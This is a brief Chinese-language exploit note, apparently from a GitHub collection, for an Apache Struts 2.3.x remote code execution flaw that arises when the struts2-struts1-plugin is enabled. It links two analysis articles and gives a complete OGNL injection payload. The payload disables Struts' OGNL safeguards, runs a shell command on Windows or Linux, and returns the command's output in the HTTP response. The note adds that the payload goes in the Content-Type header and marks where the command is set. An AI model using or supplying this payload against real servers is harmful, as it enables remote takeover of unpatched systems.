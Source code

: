 漏洞起因：Apache Struts 2.3.x系列中启用了struts2-struts1-plugin插件的版本

[分析链接1](http://www.freebuf.com/vuls/140410.html)

[分析链接2](https://xz.aliyun.com/t/1867)

payload:

```php
%{(#szgx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo dota').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.close())}
```

注意点：

该payload是在content-Type中

`(#cmd='echo dota')`此为执行的内容。